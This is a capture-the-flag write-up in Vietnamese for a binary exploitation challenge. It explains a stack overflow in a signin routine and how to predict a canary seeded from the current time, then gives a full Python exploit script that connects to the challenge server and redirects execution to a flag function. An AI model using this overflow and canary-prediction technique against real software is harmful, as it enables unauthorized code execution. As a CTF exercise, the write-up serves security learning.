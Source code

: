 ### PWN
> nc 203.162.88.114 44444
>[Binary and Source](src.zip)

### Solve

Nhìn vào source code C thì t thấy có hàm `flag()` là in ra flag mà luồng thực thi của chương trình không hè có luồng nào chạy đến hàm này.
Chính vì thế có thể đoán được là t phải Overflow để tràn đến địa chỉ hàm flag.
![](pwn1.png)
Địa chỉ của hàm `flag()` t sử dụng `IDA Pro` để xem thì có là `66666835`
![](pwn8.png)
Nhìn qua `cấu trúc dữ liệu của biến` và một vài `biến toàn cục`:
![](pnw2.png)
Với dữ liệu nêu trên thì ta thấy trong luồng có 2 hàm sử dụng các hàm `read()` là có thể sử dụng để overflow là `signup()` và `signin()`
Tuy nhiên `signup()` các hàm `read()` là an toàn vì giá trị tham số thứ 2 bằng với kích thước của biến.
![](pwn3.png)
Còn hàm `signin()` hàm `read()` ở đây có vẻ không an toàn vì độ dài tham số thứ 2 lớn hơn kích thước biến.
![](pwn4.png)
Sử dụng IDA ta có:
![](pwn7.png)
Biến `pas: bp-10Ch` and `use: bp-8Ch` and `canary = bp-Ch`
> =>> qua đó suy ra có thể Overflow hàm `read(0,ME.usn,255);` vì `0x8C = 140`
Tuy nhiên nếu overflow ở đây thì sẽ bị tràn qua giá trị của biến `canary` mà nếu `canary != tmp` thì chương trình sẽ thực hiện `exit(1)`
![](pwn5.png)
> Câu hỏi đặt ra là làm thế nào để overflow mà vẫn có thể giữ lại giá trị cho biến `canary` thế nên ta phải tính được giá trị của `tmp`
![](pwn6.png)
`tmp` được tính bằng hàm `srand()` với `time(NULL)` trong `C`.
Với python ta `import` thư viện của `C` vào: `from ctypes import CDLL` and `libc = CDLL('libc.so.6')`
```py
now = int(floor(time.time()))
tm = ''
libc.srand(now)
c = 0
while c<4:
  ch =  libc.rand()%0x7f
	if ch >0x20 and ch <0x7f:
	  tm += chr(ch)
		c += 1
```
Ngoài ra thì có thể tính toán các giá trị cần gửi lần lượt là như sau:
```
sent1 = "2\n"
sent2 = "usertrollgame\n"
sent3 = "passwordtrollgame\n"
sent4 = "passwordtrollgame\n"
sent5 = "1\n"
sent6 = ????
sent7 = "trollpassword\n"
```
Nhiệm vụ là phải tim được `sent6` và với những gì đã có ở trên thì t có thể tính ra được:
```py
sent6 = "a"*10+"\00"*118+"tmp"+"\x00"*12+"\x35\x68\x66\x66\n"
```
Sau đây là code hoàn chỉnh:

```py
from math import *
import socket
import time
from ctypes import CDLL
libc = CDLL('libc.so.6')
host = '203.162.88.114'
port = 44444
sent1 = "2\n"
sent2 = "usertrollgame\n"
sent3 = "passwordtrollgame\n"
sent4 = "passwordtrollgame\n"
sent5 = "1\n"
sent7 = "trollpassword\n"

def re(a):
	a = '0000000'+a.encode('hex')
	a = a[-8:]
	b = ''
	for i in range(4):
		b = a[i*2:i*2+2] + b
	return b.decode('hex')

def pwn():
	sent6 = "a"*10+"\00"*118+"tmp"+"\x00"*12+"\x35\x68\x66\x66\n"
	s = socket.socket()
	s.connect((host,port))
	now = int(floor(time.time()))
	tm = ''
	libc.srand(now)
	c = 0
	while c<4:
		ch =  libc.rand()%0x7f
		if ch >0x20 and ch <0x7f:
			tm += chr(ch)
			c += 1
	sent6 = sent6.replace('tmp',tm)
	s.recv(1024)
	s.recv(1024)
	s.send(sent1)
	s.recv(1024)
	s.send(sent2)
	s.recv(1024)
	s.send(sent3)
	s.recv(1024)
	s.send(sent4)
	s.recv(1024)
	s.send(sent5)
	s.recv(1024)
	s.send(sent6)
	s.recv(1024)
	s.send(sent7)
	return s.recv(1024)	

def main():
	while True:
		rs = pwn()
		if "DETECT BOF" in rs:
			continue
		else: 
			print rs
			break

if __name__=="__main__":
	main()
```

